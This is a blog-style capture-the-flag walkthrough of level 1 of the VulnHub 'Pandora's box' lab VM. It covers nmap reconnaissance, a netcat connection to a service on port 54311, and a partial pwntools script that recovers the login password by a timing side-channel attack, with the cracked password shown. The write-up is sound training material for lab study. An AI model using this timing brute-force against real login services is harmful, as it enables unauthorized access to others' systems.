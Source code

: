 ### Pandoras box Level *1* of *5*



![](https://www.vulnhub.com/media/img/entry/watermarked/2c242db3c7efd1c6a0c07c3fdc4a4fc15319ed95.png)

---

![](https://blog.cyb3rguru.tech/posts/VulnHub/images/pando_site.png)
---------------------------------------------------------------------

About:
Pandora's box is a Boot2Root VM focused on binary exploitation and
reverse engineering. You have to complete all levels to r00t the box.
Some levels come with a README file which you should read.

---

This is the first level of the challenge, an OVA file is provided in the challenge [link](https://www.vulnhub.com/entry/pandoras-box-1,111/) booting up the ova file in to VM ware player we have

![](https://blog.cyb3rguru.tech/posts/VulnHub/images/pando.gif)

after booting up the box, we are left with a prompt to enter username and password, we tried some random guesses with no avail
well this a boot-to-root challenge my first of a kind that has to do with a combination of reveng and binary exploitation, knowing this
let's try and search for the machines IP address and scan for open ports

![](https://blog.cyb3rguru.tech/posts/VulnHub/images/pando_ip.png)

Using the command `arp -a` we were able to get the machine IP address that I configured the network adapter binded to vmnet1 which we confirmed by comparing the shown macadress with the machine's ip address.

using this ip address let's scan the machine using NMAP we have :

![](https://blog.cyb3rguru.tech/posts/VulnHub/images/pando_service_scan.png)

we use the NMAP command `sudo nmap -sV -SN -sC 192.168.17.129`, and we got some results, an open port to SSH on port 22/TCP, let's try a deeper scan to scan all port using the `-p-` args to the command we have::

![](https://blog.cyb3rguru.tech/posts/VulnHub/images/pando_all_scan.png)

doing so we were able to get an additional open port running on port 54311 with service Nagios NSCA

let's try connecting to it using netcat we have ::

![](https://blog.cyb3rguru.tech/posts/VulnHub/images/pando_login_lvl1.png)

we could see a password prompt asking us for a password, we try some random string with no luck, and then I went to google to do some reconnaissance on possible vulnerabilities for Nagios logging

<p><h5>That eureker moment!!!</h5></p>

And Whalaaaaa, we found that it's vulnerable to timing attack; In cryptography, a timing attack is a side-channel attack in which the attacker attempts to compromise a cryptosystem by analyzing the time taken to execute cryptographic algorithms. More info [here](https://en.wikipedia.org/wiki/Timing_attack)

Base on this info we could craft a Python script that connects to the remote port on 54311 using pwntools and attempts to guess the password by measuring the time it takes to receive a response from the server.

Abiding to this timing attack principle we have ::

```
#!/usr/bin/python3

from pwn import *
from time import time
from string import *

ip = "192.168.17.129"
port = 54311

sample_space =  ascii_letters + digits

p = remote(ip, port)

<!--snip>
#script incomplete
<!--snip>

while not done:
	curr_val = ''
	first = True
	for chars in sample_space:
		current = flag
		current += chars
		ttt = chcktime(current)
		ttt = chcktime(current)

		if first:
			min_diff = ttt
			first = False

		if ttt < min_diff:
			min_diff = ttt
			curr_val = chars
	
	flag += curr_val
	print(flag)
	p.sendlineafter(b":", flag.encode())
	status = p.recvuntil(b"\n")

	if b"Logged" in status:
		done = True
```

full script [here](https://blog.cyb3rguru.tech/posts/VulnHub/images/script.py)

Here's a breakdown of the code:

- The script sets the IP address `(ip)` and port number `(port)` for the remote server.
- The `sample_space` variable contains a string of ASCII letters and digits, which will be used to construct the password.
- The script establishes a connection to the remote server using `p = remote(ip, port)`.
- The `chcktime` function measures the time it takes to receive a response from the server after sending a password attempt. It sends the password attempt, receives the server's response, and calculates the time difference between sending and receiving the response.
- The main loop of the script repeatedly selects a character from sample_space and appends it to the flag variable. It then measures the time it takes to receive a response from the server after sending the updated password attempt.
- The script keeps track of the minimum time difference `(min_diff)` and the character that resulted in the minimum time difference `(curr_val)`.
- After each iteration of the loop, the selected character is appended to the `flag` variable and sent to the server.
- If the server responds with "Logged in ", indicating that the correct password has been guessed, the loop is terminated.
- The script prints the current value of `flag` after each iteration to show the progress of the password guessing.

After running the code for a while we have:

![](https://blog.cyb3rguru.tech/posts/VulnHub/images/pando_lvl1_flag.gif)

<p><h5>Running the script</h5></p>

This the final password:

![](https://blog.cyb3rguru.tech/posts/VulnHub//images/pando_lvl1_flag.png)

we got the password as `R3sp3ctY04r4dm1niSt4t0rL1keYo4R3spectY04rG0d`, using this to login we have

![](https://blog.cyb3rguru.tech/posts/VulnHub//images/pando_lvl1_sucess.png)

And boooom!!!

we are in!!!!!.....................

The next solution to level *2* would be dropped soon ..............

Arigato :<^>:
